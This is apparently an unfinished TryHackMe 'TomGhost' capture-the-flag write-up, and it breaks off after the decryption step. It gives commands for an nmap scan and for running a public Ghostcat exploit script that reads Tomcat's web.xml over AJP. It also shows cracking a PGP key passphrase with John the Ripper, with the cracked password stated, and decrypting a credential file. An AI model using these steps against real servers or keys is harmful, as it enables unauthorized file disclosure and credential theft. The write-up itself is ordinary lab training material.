 # TomGhost

```bash
furious 10.10.239.44
nmap -sC -sV -sS -p 22,53,8009,8080 -n -Pn -oN targeted 10.10.239.44
```

![232802.png](232802.png)

We try Ghostcat File Read/Inclusion with https://github.com/00theway/Ghostcat-CNVD-2020-10487

reference: https://medium.com/@apkash8/hunting-and-exploiting-apache-ghostcat-b7446ef83e74

```bash
python3 ajpShooter.py http://10.10.239.44:8080/ 8009 /WEB-INF/web.xml read
```

![002929.png](002929.png)

```bash
gpg2john tryhackme.asc > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![141327.png](141327.png)

we import the key with the password `alexandru`

```bash
gpg --import tryhackme.asc
```

![140731.png](140731.png)

Now we have to decrypt `credential.gpg`

```bash
gpg --output credential.txt --decrypt credential.gpg
```

![145239.png](145239.png)

to be continue...
